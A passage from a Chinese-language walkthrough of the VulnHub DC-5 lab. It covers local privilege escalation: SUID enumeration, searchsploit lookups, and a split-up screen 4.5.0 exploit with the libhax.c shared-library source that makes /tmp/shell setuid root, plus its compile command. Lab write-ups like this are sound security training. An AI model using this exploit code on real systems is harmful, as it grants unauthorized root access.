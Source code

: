 ![](D:\stu\vulnhub\DC靶场\pic-5\15.jpg)

在查看当前靶机内用户，发现只要`dc`，并且其中的目录下，并没有任何文件，个人感觉，可能都不需要提权至`dc`了

使用`find`寻找具有SUID权限的文件，啧，发现`exim4`文件，是不是很眼熟，因为这个和上个靶机很像，就是不知道版本是否一致

![](D:\stu\vulnhub\DC靶场\pic-5\16.jpg)

# 提权

测试发现`exim4`的版本为4.84-2，在使用`searchsploit`未对应版本，也未在范围内

```shell
searchsploit exim 4.8 privilege
```

![](D:\stu\vulnhub\DC靶场\pic-5\17.jpg)

不过发现一个不常见的命令`screen-4.5.0`

使用`searchsploit`搜索，发现有该版本的提权脚本

```shell
searchsploit screen 4.5.0
```

![](D:\stu\vulnhub\DC靶场\pic-5\18.jpg)

使用`locate`定位到文件的位置，然后为了方便复制到当前目录下的位置，然后查看脚本文件内容，发现涉及到`gcc`编译

![](D:\stu\vulnhub\DC靶场\pic-5\19.jpg)

那么测试靶机内有无环境，就是有无安装`gcc`，并且能否使用`wget`

![](D:\stu\vulnhub\DC靶场\pic-5\20.jpg)

不过在执行脚本后，直接出错，不过观察脚本，按理说，应该是可以进行创建等操作的，既然在靶机内无法直接执行脚本，那么就把脚本中的内容进行分段处理，这里就是三部分，两个`c`文件，然后还有编译的操作命令。

> 注意，我这里因为出现失误，所以后续的代码编辑，文件名称会改变，不过效果不变

```c
//第一部分的c文件
//下面代码存放在 /tmp/libhax.c

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/shell", 0, 0);
    chmod("/tmp/shell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}


//执行下面的命令
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
```
